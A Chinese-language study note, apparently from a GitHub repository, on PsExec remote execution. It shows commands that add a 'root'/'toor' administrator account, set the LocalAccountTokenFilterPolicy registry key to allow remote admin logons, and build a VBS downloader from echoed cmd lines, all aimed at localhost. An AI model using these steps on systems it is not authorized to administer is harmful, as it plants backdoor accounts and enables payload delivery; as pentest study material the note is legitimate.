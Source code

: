# PSTools_Note

## psexec 
### 使用 psexec 連到目標電腦需要 Administrator 權限的帳號

新增使用者帳號/密碼
```
net user root toor /add
```
將使用者加入 Administrator 群組
```
net localgroup administrators root /add
```
查詢本機中所有使用者
```
net user 
```
查詢本機中所有群組
```
net localgroup
```
### 在目標電腦新增機碼
```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t reg_dword /d 1
```

### 使用 psexec 連到目標電腦使用cmd
```
psexec \\127.0.0.1 -u root -p 1234 cmd.exe
```
參數
```
-c：將指定的程式複製到遠端系統以執行。如果省略這個選項，則應用程式必須在遠端系統上的系統路徑中。
-d：請勿等候應用程式終止。僅使用這個非互動式應用程式的選項。
-f：即使檔案已經存在於遠端系統內，還是將指定的程式複製到遠端系統。
-i：執行此程式，才能夠讓它與遠端系統中指定的工作階段的桌上型電腦互動。如果沒有指定的工作階段，則處理序在主控台工作階段中執行。
-l：以限制使用者的身分執行處理序（刪除系統管理員群組，且只允許使用者群組指派的權限）。在 Windows Vista 中，使用低整合性執行處理序。
-p：指定選擇性使用者名稱密碼。如果省略這個動作，則會出現輸入隱藏密碼的提示。
-u：指定選擇性使用者名稱以登入遠端電腦。
-w：設定處理序的工作目錄（相對於遠端電腦）。
```
## 補充
### CMD下載方法
vbs 下載方法
```
Download "http://127.0.0.1/", "test.txt" > down.vbs
Function Download(strUrl, strFile) >> down.vbs
Set xPost = CreateObject("MSXML2.ServerXMLHTTP") >> down.vbs
xPost.Open "GET", strUrl,0 >> down.vbs
xPost.Send() >> down.vbs
Set sGet = CreateObject("ADODB.Stream") >> down.vbs
sGet.Mode = 3 >> down.vbs
sGet.Type = 1 >> down.vbs
sGet.Open() >> down.vbs
sGet.Write(xPost.responseBody) >> down.vbs
sGet.SaveToFile strFile,2 >> down.vbs
End Function >> down.vbs
```
使用 CMD 製作下載 down.vbs 
```
echo Download "http://127.0.0.1/", "test.txt" > down.vbs & echo Function Download(strUrl, strFile) >> down.vbs & echo Set xPost = CreateObject("MSXML2.ServerXMLHTTP") >> down.vbs & echo xPost.Open "GET", strUrl,0 >> down.vbs & echo xPost.Send() >> down.vbs & echo Set sGet = CreateObject("ADODB.Stream") >> down.vbs & echo sGet.Mode = 3 >> down.vbs & echo sGet.Type = 1 >> down.vbs & echo sGet.Open() >> down.vbs & echo sGet.Write(xPost.responseBody) >> down.vbs & echo sGet.SaveToFile strFile,2 >> down.vbs &echo End Function >> down.vbs
```
Call down.vbs 
```
down.vbs
pause
```
# Reference
[pstools工具下載](https://docs.microsoft.com/zh-tw/sysinternals/downloads/pstools)

[net指令使用](http://jon-and-jane.blogspot.com/2017/05/blog-post.html)

[解決拒絕存取](https://blog.twtnn.com/2013/08/pstools-win7hang.html)

[psexec參數](https://blog.yowko.com/psexec/)

[CMD三種下載方法](http://sky.candy.moe/2013/06/28/cmd-download-http-wget-vbs/)

[CMD創建文件常用指令](https://blog.csdn.net/sunjinshengli/article/details/53557684)
